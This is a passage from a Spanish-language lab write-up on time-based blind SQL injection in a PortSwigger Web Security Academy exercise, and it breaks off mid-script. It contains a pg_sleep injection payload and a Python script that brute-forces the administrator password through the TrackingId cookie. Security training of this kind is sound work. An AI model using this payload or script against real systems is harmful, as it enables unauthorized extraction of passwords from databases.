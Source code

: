 ```sql
'||(select case when substr(password,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from users where username='administrator')
```

![](/assets/img/ps-writeup-sqli/ps-lab15_9.png)

Para acelerar la extracción de la contraseña, se puede reutilizar el script anterior.

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
	print("\n\n[!] Saliendo ...\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

main_url = "https://0ab5004703ae70cd8341ce9400bc008e.web-security-academy.net"
characters = string.ascii_lowercase + string.digits


def maKeRequest():
	
	password = ""
	
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando ataque de fuerza bruta")
	
	time.sleep(2)
	
	p2 = log.progress("Password")
	
	for position in range(1,21):
		for character in characters:
		
			cookies = {
				'TrackingId' : "BpLs3P0GXoJz90ek'||(select case when substr(password,%d,1)='%s' then pg_sleep(3) else pg_sleep(0) end from users where username='administrator')--" % (position, character),
				'session' : "5gAKzuwmCtgwxIEF8Msrc3bqnE4dkOub"
			}
			
			p1.status(cookies['TrackingId'])
			
			time_start = time.time()
			
			r = requests.get(main_url, cookies=cookies)
			
```